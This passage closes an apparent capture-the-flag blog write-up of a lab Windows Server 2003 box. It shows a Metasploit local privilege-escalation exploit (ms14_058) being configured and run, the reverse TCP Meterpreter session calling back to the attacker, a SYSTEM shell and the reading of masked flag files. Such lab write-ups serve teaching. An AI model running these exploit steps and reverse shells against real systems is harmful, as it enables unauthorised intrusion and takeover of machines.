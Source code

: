 ```sh
   --  ----                                                                                                                                                                                                                                                   
   0   Windows x86                                                                                                                                                                                                                                            



View the full module info with the info, or info -d command.                                                                                                                                                                                                  

[msf](Jobs:0 Agents:1) exploit(windows/local/ms14_058_track_popup_menu) >> set LHOST 10.10.16.7
LHOST => 10.10.16.7                     
```
### Shell

After executing it, I get a shell as `administrator`

```
[msf](Jobs:0 Agents:1) exploit(windows/local/ms14_058_track_popup_menu) >> run

[*] Started reverse TCP handler on 10.10.16.7:4444
[*] Reflectively injecting the exploit DLL and triggering the exploit...
[*] Launching msiexec to host the DLL...     
[+] Process 2204 launched.                        
[*] Reflectively injecting the DLL into 2204...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 3 opened (10.10.16.7:4444 -> 10.10.10.15:1032) at 2023-10-14 00:15:05 +0300

(Meterpreter 3)(c:\windows\system32\inetsrv) > shell
Process 3084 created.           
Channel 1 created.                
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.      

c:\windows\system32\inetsrv>whoami      
whoami                                   
nt authority\system                           
```

We can also get our flags

```
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e4*************
C:\Documents and Settings\Lakis\Desktop>cd ../../administrator
cd ../../administrator

C:\Documents and Settings\Administrator>cd desktop
cd desktop

C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a************
C:\Documents and Settings\Administrator\Desktop>
```

And thats the box. Thank you all for taking your time to read my blog post, stay tuned for the next!

Happy hacking!

